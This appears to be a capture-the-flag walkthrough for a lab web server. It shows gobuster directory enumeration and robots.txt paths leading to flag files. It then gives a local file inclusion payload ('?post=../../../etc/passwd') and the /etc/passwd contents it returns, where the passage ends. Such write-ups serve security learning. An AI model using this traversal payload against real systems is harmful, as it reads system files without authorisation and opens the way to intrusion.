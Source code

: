 There is http service so browse the web page:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*y2GsaP5Bx80ess_qK-cdxg.png)


# Directories enumeration

```bash
gobuster dir -u <IP-ADDRESS> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

While gobuster is running, read the hint for Flag1:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*holV7kP7udlkUFmnNpSDZQ.png)

This hint gives an information about robots.txt file within the system.
After navigation to this file, there are another paths.

![images](https://miro.medium.com/v2/resize:fit:562/format:webp/1*-jemTcxBi0Tb8BWUoeRXXA.png)

flag_1.txt file includes the first flag.

![images](https://miro.medium.com/v2/resize:fit:544/format:webp/1*_bjQvBvkJy8vWku9apBCTA.png)

secret_file_do_not_read.txt is forbidden.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*RmpozeCoDb_35tgTgIAiAw.png)

According to the fact there is nothing helpful on the directories
enumeration with gobuster exclude robots.txt file, move forward to the
next hint to get Flag2.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*PkQu44uSREX734vx5v3ijQ.png)

Go back to the browser and enumerate the functionality of all the
webpages within the system. There is a webpage that includes the parameter “post”. 
Check if it’s vulnerable to lfi with :

```bash
?post=../../../etc/passwd
```

Results:
```bash
<main role="main">

<div class="row">
 <div class="col-2"></div>
 <div class="col-8">
  root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```
